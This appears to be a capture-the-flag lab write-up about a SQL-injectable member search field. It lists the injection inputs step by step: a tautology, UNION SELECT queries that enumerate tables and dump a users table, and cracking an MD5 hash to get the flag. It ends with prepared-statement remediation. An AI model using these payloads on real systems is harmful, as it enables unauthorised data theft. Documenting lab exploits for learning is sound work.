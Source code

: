 # 06-SQL_Member_Search

The search filed is vulnerable to sql injections

## The approach

-Go to http://192.168.101.204/index.php?

-On the search field, type `1 or 1=1` and press search button 

- Type this union command on the filed: 1 union select null, concat (table_name) from information_schema.tables where table_schema = database (). this returns table name which is users.

- type on the filed: -1 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users. this returns a list names and surnames by ID.

- from the results you get ( " 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28 " decrypt code using MD5 decrypt, then run sha256 on lowercased password: flag is result )

## The Exploit #

Users can exploit and destroy sensitive information on your database

## The solution

- Use prepared statements in the backend to prevent users from making queries with user input
- validate user inputs from back end before proceeding.

## Resources
https://www.md5online.org/md5-decrypt.html  
sha256-hash-generator/ 